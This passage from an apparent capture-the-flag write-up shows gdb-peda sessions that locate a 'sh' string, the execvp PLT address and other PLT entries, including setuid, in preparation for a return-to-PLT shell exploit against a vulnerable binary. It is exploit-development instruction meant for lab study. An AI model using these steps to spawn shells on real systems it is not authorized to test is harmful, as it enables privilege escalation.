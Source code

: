 That top one is perfect. It’s actually the end of the string “fflush”, but that’s ok:

```

gdb-peda$ x/s 0x40046e                                                                   
0x40046e:       "sh"                                                                                   
gdb-peda$ x/s 0x40046a                                                          
0x40046a:       "fflush"

```

I can get the PLT address of `execvp` by starting `gdb` fresh and printing the function:

```

gdb-peda$ p execvp
$1 = {<text variable, no debug info>} 0x400760 <execvp@plt>

```

If I let the debugger run, after the function is called, the inner workings get updated such that that same command will show the libc address:

```

gdb-peda$ p execvp
$1 = {int (const char *, char * const *)} 0x7ffff7ea3240 <__GI_execvp>

```

But the libc address changes with ASLR, so I want the first one.

I can see all the plt functions that I’ll have access to in gdbi by opening `gdb` and running `plt`:

```

gdb-peda$ plt
Breakpoint 1 at 0x400760 (execvp@plt)
Breakpoint 2 at 0x400770 (exit@plt)
Breakpoint 3 at 0x400750 (fflush@plt)
Breakpoint 4 at 0x400730 (fgets@plt)
Breakpoint 5 at 0x400790 (fork@plt)
Breakpoint 6 at 0x400740 (inet_pton@plt)
Breakpoint 7 at 0x400720 (printf@plt)
Breakpoint 8 at 0x400700 (puts@plt)
Breakpoint 9 at 0x400780 (setuid@plt)
Breakpoint 10 at 0x4006f0 (strcpy@plt)
Breakpoint 11 at 0x400710 (strlen@plt)
Breakpoint 12 at 0x4006e0 (strncpy@plt)
Breakpoint 13 at 0x4007a0 (strstr@plt)

```

I’ll make use of `setuid` as well.
